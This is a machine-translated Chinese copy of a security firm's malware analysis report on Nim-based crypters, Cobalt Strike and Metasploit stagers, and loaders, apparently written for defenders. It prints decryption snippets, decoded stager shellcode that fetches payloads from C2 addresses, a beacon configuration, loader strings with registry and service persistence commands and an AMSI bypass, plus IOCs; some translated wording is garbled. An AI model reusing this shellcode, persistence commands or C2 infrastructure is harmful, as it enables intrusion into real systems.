







# Nim 恶意软件状态调查

> 原文：<https://medium.com/walmartglobaltech/investigation-into-the-state-of-nim-malware-14cc543af811?source=collection_archive---------1----------------------->


作者:杰森·里维斯和约书亚·普拉特

无论何时发现恶意软件是用新的编程语言编写的，通常都缺乏反病毒检测，因为新语言产生相对未知的字节码序列，以及可能脱离基于静态的启发式模型的数据串。它通常还会在恶意软件逆向工程社区中造成压力，就像最初在 GoLang 恶意软件中看到的那样。

输入 Nim[1]，它用于创建一个代码示例库，将 Nim 用于红队相关的实用程序，但恶意软件开发人员注意到了可以用于更多感染的东西，包括绕过反病毒检测的编译编程语言。最近，我们发布了一份报告，对 TrickBot 网络犯罪集团正在利用的新加载程序进行了审查，这份报告是用 Nim、NimRod[5]编写的，与他们使用 BazarLoader[3]非常相似，Baza 的一些概念或开发要求可以强加于 NimRod，毕竟它们都被用作加载程序，主要用于提供 CobaltStrike。

这让我想知道在 Nim 恶意软件的世界里还有什么，这份报告是我的发现的汇编。

# 尼姆密码器

首先，我们可能有一个对手利用 OffensiveNim 的代码来隐藏板载加密二进制文件，我们通常在恶意软件世界中称之为密码器，但这是一种旨在通过在二进制文件周围包裹一层来绕过反病毒的工具，否则会被检测到。

```
**MD5**: 507500d9c55ac4db55c7ea4adfe1380b                                                         **SHA-1**: 32dbaa97622f51a05cd9ad358837242985e6abdb                                                         **SHA-256**: f76e2d411831c549ce1111d93ebb724da1835114d91a5c7e6c5e5651da1106e5
```

这不仅使用了 OffensiveNim 的公开代码，还提供了如何使用代码加密和交付. NET 程序集的分步说明[6，7]。repo 中的标准方法涉及存储 AES 加密和 Base64 编码的文件，我们可以反向执行该过程以静态恢复板载文件。

```
>>> from Crypto.Cipher import AES
>>> from Crypto.Util import Counter
>>> import hashlib
>>> k = hashlib.sha256('TARGETDOMAIN').digest()
>>> import base64
>>> b = base64.b64decode(b)
>>> c = base64.b64decode('VcVWbuX3TM+koCBd+2YHrw==')
>>> int(binascii.hexlify(c),16)
114009015196344035509101775155687196591L
>>> ctr = Counter.new(128, initial_value=114009015196344035509101775155687196591)
>>> aes = AES.new(k, AES.MODE_CTR, counter=ctr)
>>> aes.decrypt(b)
'MZ\x90\x00\x03\x00\x00\x00\x04\x00\x00\x00\xff\xff\x00\x00\xb8\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x0e\x1f\xba\x0e\x00\xb4\t\xcd!\xb8\x01L\xcd!This program cannot be run in DOS mode.\r\r\n$\x00\x00\x00\x00\x00\x00\x00PE\x00\x0
```

在本例中，它正在加载一个 GruntHTTP stager:

```
https://yeshua.vip:443
2E4D5B0FEE977939ED85AAFB89CC40F8B2350385
VXNlci1BZ2VudA==,Q29va2ll
TW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xKSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvNDEuMC4yMjI4LjAgU2FmYXJpLzUzNy4zNg==,QVNQU0VTU0lPTklEPXtHVUlEfTsgU0VTU0lPTklEPTE1NTIzMzI5NzE3NTA=
L2VuLXVzL2luZGV4Lmh0bWw=,L2VuLXVzL2RvY3MuaHRtbA==,L2VuLXVzL3Rlc3QuaHRtbA==
i=a19ea23062db990386a3a478cb89d52e&data={0}&session=75db-99b1-25fe4e9afbe58696-320bea73**MD5**: e65a69688e0c75f41f1388c82e1069ba                                                         **SHA-1**: a15573c6dabadce1dc3a5ebb1f135b64025987d4                                                         **SHA-256**: 311e49ca50489eb9c9127e42e4ab2c39d5311754e9475236a5431d917774dccf
```

进攻密码的另一种用法是作为密码器，但这一次直接引用了 SharpKatz，这在 PPN github repo[6]中有解释。用同样的方式解码出机载文件，留给我们夏普卡兹:

```
\Users\chippy\Desktop\HACKING_RESOURCES\SharpKatz-master\SharpKatz\obj\Debug\SharpKatz.pdb
```

# 尼姆·斯塔格斯

当恶意软件开发人员开始注意到 GoLang 与 stagers 或 Meterpreter 或 CobaltStrike 一起使用时，我们看到 GoLang 被使用的一个常见领域，同样的模式也适用于 Nim。

```
**MD5**: e65a69688e0c75f41f1388c82e1069ba                                                         **SHA-1**: a15573c6dabadce1dc3a5ebb1f135b64025987d4                                                         **SHA-256**: 311e49ca50489eb9c9127e42e4ab2c39d5311754e9475236a5431d917774dccf
```

外壳代码是明文的，似乎是用于下载和执行下一阶段的 Metasploit 代码，即使外壳代码是明文的，上传到 VirusTotal 时的检测结果也是 4/66。



在这里，我们可以看到下一阶段将从 45.43.2.118 撤出，但这是在我发现该文件时关闭的，根据 VirusTotal 的数据，IP 地址在某个时间点与 CobaltStrike C2 相关联。



Photo credit: [VirusTotal](https://www.virustotal.com/gui/ip-address/45.43.2.118/relations)

```
**MD5**: 78a94df84f31c12a428cbdeeb179dc6b                                                         **SHA-1**: 6f8928478f77fba483e0c3bd77610f996da97e9a                                                         **SHA-256**: 18d1776dae59d2b4d083cb204cae2ab73f50baac07bd69068343a6cc523c0de2
```

这也是一个 stager，但这一次外壳代码是模糊的，第一层是 base64。

```
uGY9pAPzVQhtiSUAgUPskzKDdniP5h4btXJZaNKEUS6v2MrXnhXA9lv+f85M4Lw3mdlgnWPkq0eVM+GQqoYHspYkh8vWZUJ3KtqupskpBPx7Z19NRdM1hQUo5SLyHWnvcMViubY5AZLRmOsxUvTf6W7nemyfK9UUDsch3MQTdVwjRm8YrA87U+iA/cyXjoon97qafqFqWPW/wagMszi+VOpet0uIcd08edBE7TaRBvjDpRdW4j+pXTD5Sgtz/1pQHKfISGENCkD71H0to2tPFqCcz4wClKIgV0HwgrsaERkJ+s06ZCzxNOM+tIsSdMKxfCZJTrAfvS/uja2bxhDe20/DETXaiMILCwvZHtm/bB6zw2scRcPrbDLD62yDw+ts18PrGb/DhaK6ulNrTMNrJoSnxPDU5dfZmUzF2WaZtKts2R7D62zX60anw2apAQwTg7vUfhnriaQLCwvDVybtUcNmqb/rw4Oq68fX8map6LPDvUzZ6+ekw2ZEU2tMw2smhNmZTMXZZpmdLX7mLAQsQQdUZWh+IZaq68dB8mapAdnrm8Oq68fA8map2etOpMNmqdmW2ZahGr7Zltka2b7DEQ7X2Wy9LZbZGr7D6+xvzr29vbeVC/KeR15wXnBF7QvZs/IJFSwJ5tmRLEfxPr12w2tMw2scU2smU2tM2b/Zv9mR47Oowb12ary+wwmZ2QDQ9QsLU2tM2R7ZHpUE2R7ZkdgJdPy9dmoaKMMJmcNrHPIJIVNrTGwbC9THHWxs2ZFqBh+GvXbDCfzDEbC/lcZSwwnmwwlJ8nkmvb29vVNrTGxs2ZHLroNQvXZXJoVXM2YLC8O90oUd02YLC2pVbzVmCwuI1r29vfdTYIdTCxUyuuyLoPcx1cJXvFxgbks33MgPoW3oEA4vFwapgt/OlkhIIiZLlxhnnyUUmRDXeU25LRBxoXXAlkHANrHsszex8Gf4du2pNGALBrxFGcvZUUVw7ePXU4JyXnNzxPdWH7jXWTSCCGDE7V5ic0WG11OH8lTXZR+4htfYXnDkgke81/Of16wfa4bX2M7YrOeG158ZXuRFcO33Vh+4htdGzvJUZYZU8waHTcXGCw8YTMbLy41MBHLg3Z4UgrSFbJJ3647dtCUQeP6Tgw5u5D1oOa7Sj3WGM/bQQk/JytCUoSUH8qyLNxE6hKxe67mBI4X0BBUAIK11knL+MVTPos4kn5qyB/jumkzfw+VffAhNkZ8qdzSvrHVl/Jw7lX5mNJz+D00kmpYb1ySINwlN3LAbGd+7tDjtojc9QgSbp1FXdjxFPVww052A4OddVdpu+Rb6UjVCgMpSoDtKNmQeph+dW4UJionpUPxaAF/bnbb7unnxUTm5ntIelJe+C9me2hjWs712w2tMkQsLxwvZAAv9CwvZY8cLCwvZkZYDh1q9dsMPh4fDCXHDCebDCUnZAAvXCwvyCbnZkexACbS9dsMRfNdXJu1kAes+w2awVyZ+I5aWlsNYCwsLC7+wiHSKvb1rZRAfa6ydH2sfa7gL7OezEw==
```

Base64 解码后，样本将把前 256 个字节作为查找表，以去除剩余数据的模糊。

```
>>> tbl = a[:256]
>>> data = a[256:]
>>> data = bytearray(a[256:])
>>> out = ""
>>> for i in range(len(data)):
...   out += tbl[data[i]]
... 
>>> out
'\xfcH\x83\xe4\xf0\xe8\xc8\x00\x00\x00AQAPRQVH1\xd2eH\x8bR`H\x8bR\x18H\x8bR H\x8brPH\x0f\xb7JJM1\xc9H1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRAQH\x8bR \x8bB<H\x01\xd0f\x81x\x18\x0b\x02ur\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0P\x8bH\x18D\x8b@ I\x01\xd0\xe3VH\xff\xc9A\x8b4\x88H\x01\xd6M1\xc9H1\xc0\xacA\xc1\xc9\rA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88H\x01\xd0AXAX^YZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9O\xff\xff\xff]j\x00I\xbewininet\x00AVI\x89\xe6L\x89\xf1A\xbaLw&\x07\xff\xd5H1\xc9H1\xd2M1\xc0M1\xc9APAPA\xba:Vy\xa7\xff\xd5\xebsZH\x89\xc1A\xb8\xa0\x1f\x00\x00M1\xc9AQAQj\x03AQA\xbaW\x89\x9f\xc6\xff\xd5\xebY[H\x89\xc1H1\xd2I\x89\xd8M1\xc9Rh\x00\x02@\x84RRA\xba\xebU.;\xff\xd5H\x89\xc6H\x83\xc3Pj\n_H\x89\xf1H\x89\xdaI\xc7\xc0\xff\xff\xff\xffM1\xc9RRA\xba-\x06\x18{\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00H\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff/MpSM\x00\xe6`J\x12\xcc\xea/\xd9\x94\xc8\x85s\xf2p\xdf\xa6G\xbb\xfb\x93^\xf4\xe32\xec7\x1bU\xd0o\x19OX**\xca\xc0\xa6\xf5\xb5\x92T\x15\x8f\xc12 \xc7)\xf9\xe02\xe7^+\x1cX$\x1c\xab\xa5\x12VG\xa5|\x92\xee\xd5t\xd0cp\x00User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; BOIE9;ENUS)\r\n\x00\x93\xb5\xc9\n--\x8e\xc9\x03z\t\x1a\xbe\x8fo\xe2\x0fR\x9a\x14\x8b\x8a\x1a\xe2\x152\x0e\xde~\x18\xec\xdfd\x86\xd13\x06\xcf\'+;\x9d\xbd\xa0\x87\xfc\xd4}\xa0\xa1^\x15\x08I6\xccG\x83\xe1\xac6i\x8b\xf9F\xd7\x0f\xb0\x03\xe6\xb8\xaf\x91+\x9az\xde\xd9E\x16\xb7O\x9eT\xa8\x17\x08\xee\xc2\xa8\xc9\x19H,\xef\xc4m)\xbaT\x7f\x14c\xf86+9\xc6\xb3\x90ju\x01c\xb3\xde\x93)\x9e\xa8Xh \x9e\xe8G\x89)\xbb\xc3hr\x19\x0b\xe2\x95t\xb7G\x86\x87\x03\x0c<g\x85\xd5\xaae\x86\xf2\x99\x8c8#\t4\x1d\xd3\xf0\xdf\x8d\x1e\xad_\xe4\x87#}_\xea\x90\xae\xab\xb6Q\xdd.8"\x0f\x89\xfd\x80>{\xc6\xe5\xb8\xef\x828\xa9\x9bJ\xc7&g3\xf9\xbe\xcfQ\xa1\xf5Z\x00A\xbe\xf0\xb5\xa2V\xff\xd5H1\xc9\xba\x00\x00@\x00A\xb8\x00\x10\x00\x00A\xb9@\x00\x00\x00A\xbaX\xa4S\xe5\xff\xd5H\x93SSH\x89\xe7H\x89\xf1H\x89\xdaA\xb8\x00 \x00\x00I\x89\xf9A\xba\x12\x96\x89\xe2\xff\xd5H\x83\xc4 \x85\xc0t\xb6f\x8b\x07H\x01\xc3\x85\xc0u\xd7XXXH\x05\x00\x00\x00\x00P\xc3\xe8\x9f\xfd\xff\xff192.168.1.10\x00\x124Vx'
```

解码后的数据是带有本地 IP 地址的 CobaltStrike stager 外壳代码。我们能够依靠这种解码外壳代码的技术找到另一个 stager 使用相同的解码机制来运行 C2:

```
MD5: 76c7bb63fb46ecd31bee614e2760fc2f
SHA-1: 8dcc70fcbeb7231986fe9420f7cd8bc8a1223ddf
SHA-256: d7cdf7bca8c90d21e64b0c790ce5aa9124623dd2788088c81160703e00ff2052
```

这个解码出来的外壳代码 stager 会转到:

```
35.241.81.15/AdhP
```

下载时包含一个外壳代码包装的 CobaltStrike 信标。

```
{'ProcInject_Execute': '\x06\x00B\x00\x00\x00\x06ntdll\x00\x00\x00\x00\x13RtlUserThreadStart\x00\x01\x08\x03\x04', 'PROXY_BEHAVIOR': '2', 'PROTOCOL': '8', 'SPAWNTO_X64': '%windir%\\sysnative\\dllhost.exe', 'SLEEPTIME': '45000', 'KillDate': '0', 'C2_VERB_GET': 'GET', 'ProcInject_StartRWX': '4', 'DOMAINS': '35.241.81.15,/jquery-3.3.1.min.js', 'HostHeader': '', 'ProcInject_Prepend_x86': '\x02\x90\x90', 'ProcInject_MinAllocSize': '17500', 'ProcInject_UseRWX': '32', 'MAXGET': '1403644', 'USERAGENT': 'Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko', 'PORT': '443', 'UsesCookies': '1', 'ProcInject_AllocationMethod': '1', 'PUBKEY': '30819f300d06092a864886f70d010101050003818d003081890281810088c000e1ce2599a1d5b93de6ed952dae15bb46b769862fe97fbce12b48bd790b3f63c07eb1f5596539aabaca02166cd8aad7182e10138553a9d3335af785e8bd2c6f55707faeb8db13800ae9aa7ce11cf23abf887d12296747a14329d8a35599ea35c9d8a97d3ac5b0ed69cc3a8daf534f241d6415e15e16e259ad05abad90a10203010001', 'C2_POSTREQ': "[('_HEADER', 0, 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'), ('_HEADER', 0, 'Referer: [http://code.jquery.com/'](http://code.jquery.com/')), ('_HEADER', 0, 'Accept-Encoding: gzip, deflate'), ('BUILD', ('MASK',))]", 'WATERMARK': '1359593325', 'textSectEnd': '177872', 'bStageCleanup': '1', 'SPAWNTO_X86': '%windir%\\syswow64\\dllhost.exe', 'C2_REQUEST': "[('_HEADER', 0, 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'), ('_HEADER', 0, 'Referer: [http://code.jquery.com/'](http://code.jquery.com/')), ('_HEADER', 0, 'Accept-Encoding: gzip, deflate'), ('BUILD', ('BASE64URL',)), ('HEADER', 0, 'Cookie')]", 'CRYPTO_sCHEME': '0', 'ITTER': '37', 'C2_VERB_POST': 'POST', 'SPAWNTO': '', 'bCFGCaution': '0', 'SUBMITURI': '/jquery-3.3.2.min.js'}**MD5**: bde13c029b14a133b13fcd875af3567c                                                         **SHA-1**: e57396cfeac27076f2660c36e650d24bd37ca804                                                         **SHA-256**: 993ea418f841fce636986d3e61aed7ac2b3a03c7d3e8a539ac5c81c7b85637f5
```

这也是一个具有本地 IP 地址的 CobaltStrike stager，但数据是使用 3DES 加密的，密钥位于加密数据的顶部:



我们要看的最后一个 stager 在 stager 外壳代码上有几层编码，但它目前在 VirusTotal 上也只有 5 个检测项。

```
**MD5:** 0a7b2ae58ac40dfd7a972a6cff81315a                                                         **SHA-1**: df466c910cd0f6b6672d2e4396b84fc071cdc11f                                                         **SHA-256**: 590e2308bd76873a1a518e162bbf10173a0bc69a0380c606d0f10c058cbffb0e
```

外壳代码的 XOR 密钥存储为单字节 XOR 编码本身:



然后复制编码的登台程序外壳代码:



然后，编码后的外壳代码和 XOR 密钥被传递给一个自称为 showStr 的函数:



这个函数实际上将解码外壳代码:



步骤是 Base64 decode -> XOR -> unhexlify，这给我们留下了另一个 stager 外壳代码 blob:

```
\xfc\xe8\x89\x00\x00\x00`\x89\xe51\xd2d\x8bR0\x8bR\x0c\x8bR\x14\x8br(\x0f\xb7J&1\xff1\xc0\xac<a|\x02, \xc1\xcf\r\x01\xc7\xe2\xf0RW\x8bR\x10\x8bB<\x01\xd0\x8b@x\x85\xc0tJ\x01\xd0P\x8bH\x18\x8bX \x01\xd3\xe3<I\x8b4\x8b\x01\xd61\xff1\xc0\xac\xc1\xcf\r\x01\xc78\xe0u\xf4\x03}\xf8;}$u\xe2X\x8bX$\x01\xd3f\x8b\x0cK\x8bX\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89D$$[[aYZQ\xff\xe0X_Z\x8b\x12\xeb\x86]hnet\x00hwiniThLw&\x07\xff\xd51\xffWWWWWh:Vy\xa7\xff\xd5\xe9\x84\x00\x00\x00[1\xc9QQj\x03QQhP\x00\x00\x00SPhW\x89\x9f\xc6\xff\xd5\xebp[1\xd2Rh\x00\x02@\x84RRRSRPh\xebU.;\xff\xd5\x89\xc6\x83\xc3P1\xffWWj\xffSVh-\x06\x18{\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x001\xff\x85\xf6t\x04\x89\xf9\xeb\th\xaa\xc5\xe2]\xff\xd5\x89\xc1hE!^1\xff\xd51\xffWj\x07QVPh\xb7W\xe0\x0b\xff\xd5\xbf\x00/\x00\x009\xc7t\xb71\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff/jquery-3.3.1.slim.min.js\x00V"\x06\xd3\xc2S\xd9GD\xaa}\x0e\xe5+\xaeE\x8d;\xe0\xa2wc7\xfc\x9f\xd91?9X\xd3\xfd\x19m\xc8\x02;\x97w\xde\'\x16\xa2\x01\x84V\xadTg\x15\xa6*>\x00Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nHost: code.jquery.com\r\nAccept-Encoding: gzip, deflate\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36\r\n\x00\x1d-C\x81\x94\xc82\xaf\x1e\xe0\x97!\x00h\xf0\xb5\xa2V\xff\xd5j@h\x00\x10\x00\x00h\x00\x00@\x00WhX\xa4S\xe5\xff\xd5\x93\xb9\xaf\x0f\x00\x00\x01\xd9QS\x89\xe7Wh\x00 \x00\x00SVh\x12\x96\x89\xe2\xff\xd5\x85\xc0t\xc6\x8b\x07\x01\xc3\x85\xc0u\xe5X\xc3\xe8\xa9\xfd\xff\xff192.168.161.2\x00Q\t\xbfm'
```

# 装载机

除了 NimRod 之外，Nim 中似乎还有其他加载程序恶意软件，它们在字符串编码技术方面与 NimRod 有一些代码相似性，这是否意味着它们基于相似的代码库或由同一个人开发尚不确定。

```
**MD5**: 325a71e33559a634ec08bccd0d3898f8
**SHA-1**: de3a15fb7b7571cc697b8c262e56e4be31c74302
**SHA-256**: bdf20694e32d8305b859bf0d36b62078fd9ec330ece3f37e8192ff738165faee
```

CAB 文件包含两个文件，它们都是用 Nim 编写的，并且包含与 NimRod 相同的字符串编码例程。

```
Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-01-09 00:22:40 ....A       112248               Loader.exe
2021-01-09 00:22:14 ....A       302200               reader_sl.exe
------------------- ----- ------------ ------------  ------------------------
2021-01-09 00:22:40             414448       136673  2 files
```

Loader.exe:

```
MD5: dca780bc42a73d11ddfbc9f44a5f7a87
SHA-1: e3b01fed4799dd38490f49cf974d669b3fa8887f
SHA-256: 63c81b095e6a461587717b5191028f55dc413bf2457f8fc89c8d8dfbf810491e
```

解码字符串:

```
APPDATA
reader_sl
\reader_sl.exe
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v 
 /t REG_SZ /d 
sc create 
 binPath= 
cmd /K start 
 start= auto error= ignore
reg add HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\LocalServer32 /ve /t REG_SZ /d "
 /f
cmd.exe /c 
[*] Initializing...
cmd.exe /c start 
[!] Unknown Error!
```

reader_sl.exe

```
MD5: a3dbfa1081a6b79cbedda57f859a2942
SHA-1: 86eff4c7c5f0cc587ab94fc0b63d5e771548cf84
SHA-256: 5195ead146c387e55c4e7b00818b30bd80d044a71b9717597de3cbc535344984
```

清除字符串:

```
capture
mypid
start /b 
start
cloneme
[!] Unknown exception!
cmd.exe /c start /b 
 -Verb RunAs
powershell Start-Process 
uac
deactivate
update.php
cmd
key
Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko)
User-agent
activate
get
sleep
```

解码字符串:

```
amsi
AmsiScanBuffer
[*] Disabled: 
[*] Parsing...
http://msbackup.ddns.net/f01c137e-0eb6-4fba-9ef0-40c9cfac3135/
1qaz@WSX
-
USERNAME
[*] Initializing...
[+] DONE!
User-agent
Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko)
clients/
.html
kill server
[!] Unknown exception!
[!] Page Not Found!
id
key
cmd
ndm
update.php
```

我们已经展示了许多例子，展示了各种各样的人正在出于各种目的使用 Nim 进行试验，目前大多数测试似乎都与红队有关，但是最近也有一些恶意参与者在利用它。

# IOCs

```
42.51.12.61
35.241.81.15
ss.payl0ad.ga
msbackup.ddns.net
```

# 参考

1:[https://nim-lang.org/](https://nim-lang.org/)

2:【https://github.com/byt3bl33d3r/OffensiveNim 

3:[https://www . crowd strike . com/blog/wizard-spider-attendant-update/](https://www.crowdstrike.com/blog/wizard-spider-adversary-update/)

4:[https://www . bleeping computer . com/news/security/bazar loader-used-to-deploy-ryuk-ransomware-on-high-value-targets/](https://www.bleepingcomputer.com/news/security/bazarloader-used-to-deploy-ryuk-ransomware-on-high-value-targets/)

5:[https://medium . com/Walmart global tech/nimar-loader-4f 61 c 090 c49e](/walmartglobaltech/nimar-loader-4f61c090c49e)

6:[https://github.com/snovvcrash/PPN](https://github.com/snovvcrash/PPN)

7:[https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)